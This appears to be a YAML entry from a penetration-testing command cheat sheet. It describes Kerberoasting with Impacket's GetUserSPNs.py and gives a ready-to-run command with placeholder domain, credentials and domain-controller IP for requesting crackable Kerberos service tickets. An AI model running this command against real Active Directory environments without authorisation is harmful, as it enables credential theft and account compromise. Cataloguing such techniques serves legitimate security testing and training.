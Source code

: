 ```yaml
---
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```


